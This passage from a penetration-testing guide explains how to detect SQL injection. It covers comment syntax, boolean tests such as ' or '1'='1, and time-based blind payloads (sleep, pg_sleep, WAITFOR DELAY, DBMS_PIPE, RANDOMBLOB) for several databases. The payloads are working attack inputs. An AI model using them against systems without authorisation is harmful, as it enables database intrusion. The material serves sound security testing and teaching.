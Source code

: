 ```sql

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```

### Confirming with logical operations

One of the best ways to confirm a SQL injection is by making it operate a **logical operation** and having the expected results.  
For example: if the GET parameter `?username=Peter` returns the same content as `?username=Peter' or '1'='1` then, you found a SQL injection.

Also you can apply this concept to **mathematical operations**. Example: If `?id=1` returns the same as `?id=2-1`, SQLinjection.

```text
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

This word-list was created to try to **confirm SQLinjections** in the proposed way:

{% file src="../../.gitbook/assets/sqli-logic.txt" %}

### Confirming with Timing

In some cases you **won't notice any change** on the page you are testing. Therefore, a good way to **discover blind SQL injections** is making the DB perform actions and will have an **impact on the time** the page need to load.  
Therefore, the we are going to concat in the SQL query an operation that will take a lot of time to complete:

```text
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
